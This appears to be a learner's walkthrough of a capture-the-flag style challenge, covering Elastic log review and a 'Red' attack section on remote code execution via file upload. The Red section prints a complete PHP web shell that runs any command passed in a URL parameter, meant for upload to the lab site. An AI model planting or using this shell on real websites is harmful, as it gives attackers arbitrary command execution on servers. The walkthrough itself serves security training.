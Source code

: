 You can expand logs using the `>` icon from the left of the log entry. This will show you more information about the log entry.

> Note: For the Blue section, this is where following the guidance ends. The information shown in the challenge doesn't match the information I see in the logs. I watched the walkthrough video, but the person in the video only reads the Blue section and doesn't actually do it - only the Red section. I asked on Discord, and it seems that it is expected that the Blue section doesn't match what you see in the logs. I suggest just reading the Blue section and then moving on to following along with the Red section. This is enough to answer the questions at the end of the challenge.

## Operation Red
This section looks at the attack itself, and how it was carried out.

There is some general information here about Remote Code Execution (RCE), and Cross-Site Scripting (XSS), and why unrestricted file uploads are bad. I won't be copying that here - go to the challenge page to read it.

### Exploiting RCE via File Upload
The challenge provides the following script that we are going to upload to a website:
```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="text" name="command" autofocus id="command" size="50">
<input type="submit" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['command'])) 
    {
        system($_GET['command'] . ' 2>&1'); 
    }
?>
</pre>
</body>
</html>
```

This should be copied and saved in a file called `shell.php`.

## Practical

To do the practical, we need to go back to the Elastic site, and in the Discover page, pick the `frostypines-resorts` log collection. We then need to set the time range to October 3rd 2024 11:30:00 to October 3rd 2024 12:00:00.

We can then use this information to answer the BLUE questions at the end of the challenge. We cna then exploit the RCE vulnerability to upload the `shell.php` file to the website and answer the RED questions.

## Answes to the questions
> Note: This section contains the answers to the questions asked in the challenge. If you don't want spoilers, don't read this section.
